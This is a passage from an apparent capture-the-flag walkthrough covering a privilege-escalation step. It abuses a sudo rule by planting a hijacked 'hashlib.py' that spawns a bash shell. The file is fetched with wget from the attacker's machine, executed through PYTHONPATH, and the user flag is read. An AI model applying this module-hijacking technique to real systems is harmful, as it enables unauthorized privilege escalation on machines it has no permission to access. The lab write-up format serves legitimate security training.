



4.2 Get user's privileges (First flag)
1. You have to find out the privilege of some user. On your shell run the following code.
Output: 
There's an user called
rehan and he can run “/opt/md5.py” with NOPASSWORD.
2. On your Kali Machine create a file called “hashlib.py” with the following content. (It's better to write the code)
import os
class Test(object):
def __init__(self,test):
self.test = test
def hexdigest(self):
return self.test
def md5(test):
os.system("/bin/bash -i")
return Test(test)
3. On the victim's machine create a directory called “test” in the “/tmp” directory.
4. Go to “/tmp/test”, get the file “hashlib.py” from the Kali Machine and make it executable.
wget http://192.168.12.10:8000/hashlib.py
chmod 777 hashlib.py
5. Change PYTHONPATH environment.
PYTHONPATH is an environment variable which you can set to add additional directories where python will look for modules and packages.
sudo -u rehan PYTHONPATH=/tmp/test /opt/md5.py
6. Show the “id”.
Output: 
7. Get the flag.
cd /home/rehan
cat user.txt

de0a7d9cb0e1ae6190e85549f63a26c1